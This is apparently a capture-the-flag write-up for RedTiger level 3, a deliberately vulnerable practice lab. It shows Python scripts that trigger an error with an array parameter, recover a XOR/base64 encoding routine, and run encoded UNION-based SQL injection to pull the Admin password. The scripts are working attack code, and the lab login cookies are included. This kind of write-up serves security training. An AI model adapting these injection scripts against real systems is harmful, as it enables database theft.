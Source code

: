 ================================================================================================================
[redtiger] level3
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="?usr[]=",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

Target: Get the password of the user Admin.
Hint: Try to get an error. Tablename: level3_users


Show userdetails: 
TheCow
Admin

.. code-block:: html

    Show userdetails: 
    <a href="?usr=MTQ4MTY4MTY1MTMxMTc1MTgz">TheCow</a>
    <a href="?usr=MTI5MTY0MTczMTY5MTc0">Admin</a>

    <form method="post">
        Username: <input type="text" name="user">
        Password: <input type="text" name="password">
        <input type="submit" name="login" value="Login">
    </form>
    

|

array injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    # []
    payload = {
        "usr[]": ""
    }

    r = requests.post(url, cookies=cookies, params=payload, verify=False)

    print r.content


[error page]

.. code-block:: html

    Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

|

.. code-block:: php

    <?php
            
        function encrypt($str)
        {
            $cryptedstr = "";
            for ($i =0; $i < strlen($str); $i++)
            {
                $temp = ord(substr($str,$i,1)) ^ 192;
                
                while(strlen($temp)<3)
                {
                    $temp = "0".$temp;
                }
                $cryptedstr .= $temp. "";
            }
            return base64_encode($cryptedstr);
        }
      
        function decrypt ($str)
        {
            if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
            {
                $str = base64_decode($str);
                if ($str != "" && $str != null && $str != false)
                {
                    $decStr = "";
                    
                    for ($i=0; $i < strlen($str); $i+=3)
                    {
                        $array[$i/3] = substr($str,$i,3);
                    }

                    foreach($array as $s)
                    {
                        $a = $s^192;
                        $decStr .= chr($a);
                    }
                    
                    return $decStr;
                }
                return false;
            }
            return false;
        }
    ?>

|

.. code-block:: python

    import base64

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)


|

Column Length
================================================================================================================

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        #"level2login":"easylevelsareeasy_%21",
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    n = 0
    ret = ''
    for l in range(20):
        params = {
            "usr": encrypt("' union select %s from level3_users-- " % str(n))
        }
        print "' union select %s from level3_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        print r.content



|

Data Extract
================================================================================================================



.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        #"level2login":"easylevelsareeasy_%21",
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }


    params = {
        "usr": encrypt("' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- ")
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content